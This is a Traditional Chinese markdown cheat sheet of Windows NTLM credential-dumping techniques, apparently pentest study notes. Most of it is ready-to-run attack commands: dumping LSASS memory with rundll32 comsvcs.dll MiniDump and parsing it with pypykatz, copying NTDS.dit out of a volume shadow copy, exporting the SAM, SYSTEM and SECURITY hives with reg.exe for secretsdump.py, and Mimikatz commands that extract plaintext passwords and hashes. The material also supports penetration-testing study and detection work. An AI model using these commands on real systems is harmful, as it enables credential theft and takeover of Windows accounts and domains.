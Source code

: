 # NTLM相關手法
>[!note] 本章重點
>NTLM主要是Windows密碼相關的東西，NTLM的各種攻擊手法幾乎都需要使用到最高權限。

## Attacking LSASS
>本機安全認證子系統服務（Local Security Authority Subsystem Service，縮寫 LSASS），是微軟視窗作業系統的一個內部程式，負責執行Windows系統安全政策。它在使用者登入時電腦單機或伺服器時，驗證使用者身分，管理使用者密碼變更，並產生存取字元。它也會在視窗安全記錄檔中留下應有的記錄。
### 用PS找LSAAS的ID
```
Get-Process lsass
```
### 用rundll32 Dump LSAAS
```
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
### Pypykatz解析出密碼
```
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```
## Volume Shadow Copy Service
>透過磁碟輩分手段撈資料，可以產出NTDS.dit

- 建立備份
```
vssadmin CREATE SHADOW /For=C:
```
- 從shadow裡免撈出NTDS.dit
```
C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
## 用reg.exe撈出Windows密碼
- 撈密碼
```
reg.exe save hklm\sam C:\sam.save 
reg.exe save hklm\system C:\system.save 
reg.exe save hklm\security C:\security.save
```
*  解析帳號密碼
```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

## 用Mimikatz撈出密碼及hash

- 作業前要先提權
```
privilege::debug
```
### Mimikatz撈密碼指令
* 撈明碼以及hash
```
sekurlsa::logonpasswords
```
- 撈SAM的NTLM hash
```
lsadump::sam
```
- 提到最高權限
```
token::elevate
```